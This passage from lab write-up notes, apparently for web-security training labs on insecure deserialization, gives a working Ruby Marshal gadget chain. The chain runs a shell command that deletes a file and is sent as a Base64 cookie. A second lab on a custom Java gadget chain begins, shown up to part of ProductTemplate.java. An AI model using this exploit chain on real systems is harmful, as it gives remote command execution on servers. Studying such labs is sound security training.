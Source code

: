     wa1 = Net::WriteAdapter.new(Kernel, :system)

    rs = Gem::RequestSet.allocate
    rs.instance_variable_set('@sets', wa1)
    rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

    wa2 = Net::WriteAdapter.new(rs, :resolve)

    i = Gem::Package::TarReader::Entry.allocate
    i.instance_variable_set('@read', 0)
    i.instance_variable_set('@header', "aaa")


    n = Net::BufferedIO.allocate
    n.instance_variable_set('@io', i)
    n.instance_variable_set('@debug_output', wa2)

    t = Gem::Package::TarReader.allocate
    t.instance_variable_set('@io', n)

    r = Gem::Requirement.allocate
    r.instance_variable_set('@requirements', t)

    payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
    puts Base64.encode64(payload)

Go to [Ruby Online Compiler](https://www.jdoodle.com/execute-ruby-online), choose language version `2.6.5` and compile this code. Copy the output and use it as the cookie value along with any request to solve the lab.

### LAB: Developing a custom gadget chain for Java deserialization
Crawl through the source code, found a suspicous comment:
    
    <!-- <a href=/backup/AccessTokenUser.java>Example user</a> -->

Visit `/backup`, found the `ProductTemplate.java`:

    package data.productcatalog;

    import common.db.JdbcConnectionBuilder;

    import java.io.IOException;
    import java.io.ObjectInputStream;
    import java.io.Serializable;
    import java.sql.Connection;
    import java.sql.ResultSet;
    import java.sql.SQLException;
    import java.sql.Statement;

    public class ProductTemplate implements Serializable
    {
        static final long serialVersionUID = 1L;

        private final String id;
        private transient Product product;

        public ProductTemplate(String id)
        {
            this.id = id;
        }
